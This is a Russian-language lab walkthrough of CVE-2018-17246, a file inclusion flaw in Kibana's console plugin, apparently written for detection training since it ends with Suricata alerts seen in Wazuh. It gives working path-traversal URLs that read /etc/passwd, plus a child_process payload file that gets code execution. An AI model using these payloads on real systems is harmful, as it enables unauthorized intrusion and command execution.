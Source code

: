 # CVE-2018-17246

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2018-17246](https://nvd.nist.gov/vuln/detail/CVE-2018-17246)
* [https://www.opencve.io/cve/CVE-2018-17246](https://www.opencve.io/cve/CVE-2018-17246)

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 6.4.3 и 5.6.13 содержат ошибку включения произвольных файлов в плагине консоли. Злоумышленник, имеющий доступ к API консоли Kibana, может отправить запрос, который попытается выполнить код JavaScript. Это может привести к тому, что злоумышленник сможет выполнять произвольные команды с разрешениями процесса Kibana на хосте.

### Эксплуатация уязвимости&#x20;

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601 будет доступна панель Kibana

Введите следующий URL-адрес в вашу поисковую строку:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/cve-2018-17246(1).png" alt=""><figcaption></figcaption></figure>

При отправке этого запроса возникает 500-я ошибка, но мы можем увидеть исключение в логах контейнера (`docker compose logs`)

<figure><img src="../../.gitbook/assets/cve-2018-17246(2).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости запишите следующий код в файл на уязвимом хосте&#x20;

```
docker compose exec kibana bash
echo "export default {asJson: function() {return require(\"child_process\").execSync(\"id\").toString()}}" > /tmp/vulhub.js
```

После отправки следующего  GET-запроса в ответе мы получим результат выполнения команды id на целевой машине:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/vulhub.js
```

<figure><img src="../../.gitbook/assets/cve-2018-17246(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2018-17246(4).png" alt=""><figcaption></figcaption></figure>
